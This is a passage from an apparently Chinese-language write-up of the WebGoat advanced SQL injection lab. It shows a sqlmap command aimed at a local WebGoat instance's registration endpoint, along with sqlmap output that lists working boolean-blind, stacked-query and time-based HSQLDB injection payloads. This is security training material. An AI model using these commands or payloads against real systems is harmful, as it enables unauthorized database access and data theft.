 ![sqli-advanced-blindi-05](images/lab_sqli/sqli-advanced-blindi-05.png)

结果令人满意：），显然存在着漏洞。总的来看有两种情况的服务器响应信息：

- “User *** created, please proceed to the login page.”
- "User *** already exists please try to register with a different username."



使用chrome开发者工具截取并观察流量，使用sqlmap时：
```
sqlmap -u http://10.10.10.129:8080/WebGoat/SqlInjection/challenge  --cookie "JSESSIONID=873037C186F14C0F4E34EF048F7752CE" --data "username_reg=§newuser&email_reg=123@401.com&password_reg=123&confirm_password_reg=123" --method "PUT" 
```

结果如下：
```
[*] starting @ 18:24:18 /2019-08-27/

[18:24:19] [INFO] resuming back-end DBMS 'hsqldb' 
[18:24:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username_reg (PUT)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username_reg=§newuser' AND 3279=3279 AND 'GonP'='GonP&email_reg=123@401.com&password_reg=123&confirm_password_reg=123

    Type: stacked queries
    Title: HSQLDB >= 1.7.2 stacked queries (heavy query - comment)
    Payload: username_reg=§newuser';CALL REGEXP_SUBSTRING(REPEAT(RIGHT(CHAR(1681),0),500000000),NULL)--&email_reg=123@401.com&password_reg=123&confirm_password_reg=123

    Type: time-based blind
    Title: HSQLDB > 2.0 AND time-based blind (heavy query)
    Payload: username_reg=§newuser' AND CHAR(109)||CHAR(120)||CHAR(102)||CHAR(85)=REGEXP_SUBSTRING(REPEAT(LEFT(CRYPT_KEY(CHAR(65)||CHAR(69)||CHAR(83),NULL),0),500000000),NULL) AND 'StIP'='StIP&email_reg=123@401.com&password_reg=123&confirm_password_reg=123
---
[18:24:19] [INFO] the back-end DBMS is HSQLDB
```